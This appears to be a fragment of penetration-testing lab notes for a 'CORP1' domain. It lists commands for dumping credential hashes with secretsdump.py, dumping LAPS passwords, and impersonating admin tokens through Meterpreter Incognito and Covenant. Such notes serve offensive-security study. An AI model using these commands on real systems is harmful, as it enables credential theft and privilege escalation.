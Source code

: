 ###### Secretsdump parse

```
# secretsdump.py -sam sam -system system LOCAL
secretsdump.py -sam sam -system system -security security LOCAL
```

#### LAPS

```
# import
ps> Import-Module .\LAPSToolkit.ps1

# search
> Find-LAPSDelegatedGroups

# dump
> Get-LAPSComputers
```

#### Token Impersonation

##### Token Impersonation using MSF Incognito

```
# load incognito
meterpreter > load incognito

# list currently used tokens
meterpreter > list_tokens -u

# impersonate token
meterpreter > impersonate_token CORP1\\admin
```

##### Token Impersonation Using Covenant

```
# list processes to see logged on users
> ps
[...]
3816  4472  explorer             2          CORP1\admin                         x64           C:\Windows\Explorer.EXE

# impersonate
> ImpersonateUser CORP1\admin
Successfully impersonated: CORP1\admin

> WhoAmI

CORP1\admin

# alternative
> ImpersonateProcess 3816
Successfully impersonated: 3816

> WhoAmI

CORP1\admin
```
